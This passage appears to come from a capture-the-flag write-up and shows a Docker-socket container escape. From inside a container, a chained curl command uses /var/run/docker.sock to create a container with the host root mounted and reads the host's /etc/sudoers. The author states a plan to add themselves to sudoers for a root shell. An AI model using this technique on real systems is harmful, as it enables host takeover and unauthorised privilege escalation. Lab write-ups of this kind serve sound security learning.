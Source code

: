 
I can easily read `root.txt`, or use the techniques that follow to get a full
shell.

### Shell

There’s a ton of ways to get a shell with root file system access. I’ll add
myself to the `/etc/sudoers` file. It by default looks like:

    
    
    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "cat /rootfs/etc/sudoers"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
    #
    # This file MUST be edited with the 'visudo' command as root.
    #
    # Please consider adding local content in /etc/sudoers.d/ instead of
    # directly modifying this file.
    #
    # See the man page for details on how to write a sudoers file.
    #
    Defaults        env_reset
    Defaults        mail_badpass
    Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
    
    # Host alias specification
    
    # User alias specification
    
    # Cmnd alias specification
    
    # User privilege specification
    root    ALL=(ALL:ALL) ALL
    